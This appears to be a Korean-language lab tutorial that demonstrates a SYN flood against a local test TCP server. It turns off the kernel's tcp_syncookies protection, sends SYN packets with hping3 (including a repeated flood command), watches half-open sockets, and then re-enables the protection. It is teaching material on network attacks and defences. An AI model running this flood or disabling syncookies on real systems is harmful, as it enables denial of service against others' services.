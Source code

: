 SYN flood
===

https://gitlab.com/gilgil/scs.git git repository를 clone받아서 make 명령어로 빌드를 한다. bin 폴더에 tc, ts, uc, us 실행 파일이 생성된다. 다음과 같은 명령어로 간단한 tcp server(port 번호 1234)를 띄워 놓는다(Victim).
```
$ ./ts 1234
```

클라이언트에서 tc 명령어를 통해서 연결과 데이터 송신이 제대로 되는지 확인한다.
```
$ ./tc 127.0.0.1 1234
```

서버에서 다음과 같은 명령어로 syncookies 옵션 값을 확인한다. default는 1이며, 이 경우 외부로부터의 SYN flooding attack에 대한 방어 기능이 on되어 있다.
```
$ sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1
```

victim 대상이 되는 호스트에서 tcp_syncookies 값을 0으로 하여 SYN flooding attack 방지 기능을 off로 만든다.
```
$ sudo sysctl -w net.ipv4.tcp_syncookies=0
```

hping3 명령어를 통해서 SYN packet을 하나만 보내 본다.
```
$ hping3 127.0.0.1 -p 1234 -S -c 1
```

서버에서 netstat 명령어로 SYN RECEIVED 상태의 소켓이 존재하는지 확인한다.
```
$ netstat -apn | grep :1234
```

서버에서 SYN_RECV 상태의 소켓이 존재하지 않는 것은 SYN, SYN+ACK 송수신에 의해 클라이언트가 RST packet(나는 1234와 관련되어 요청한 적이 없다)을 서버에게 전달하게 되고, 서버에서는 소켓의 상태가 SYN RECEIVED 상태에서 CLOSED 상태로 전환이 되기 때문이다. 따라서 적당한 방법을 사용하여 클라이언트에서 서버로 전달되는 RST packet을 차단하도록 한다.

이후 hping3 명령어를 통하여 SYN flooding attack을 하게 되면 하나의 패킷에 의해 서버에서 SYN RECEIVED 상태의 소켓이 계속 증가하는 것을 볼 수 있다. SYN RECEIVED 상태의 소켓이 계속 증가하다거 더 이상 외부로부터의 연결 요청을 받을 수 없게 된다(SYN packet에 대해 SYN+ACK packet으로 반응할 수 없다). 이 소켓의 갯수는 listen 함수의 인자 값(backlog)으로 결정이 된다. backlog 값을 변경하면서 테스트를 다시 해 본다.

SYN packet을 좀 더 주기적으로 보내게 한다. 몇 초만 지나면 서버는 더 이상 외부로부터의 접속을 어려워지게 된다. 반면 기존에 이미 연결되어 있는 소켓은 제대로 송수신이 잘 됨을 확인할 수 있다.
```
$ hping3 127.0.0.1 -p 1234 -S -i u100000
```

요즘 나오는 대부분의 OS는 이러한 SYN flooding attack에 대해 방어할 수 있는 메커니즘이 구현되어 있다. 다음 명령어를 통해서 syncookies 값을 다시 on시켜서 SYN flooding attack에 대해 방어할 수 있도록 한다.
```
$ sudo sysctl -w net.ipv4.tcp_syncookies=1
```

## Youtube
https://youtu.be/08ft80U4xac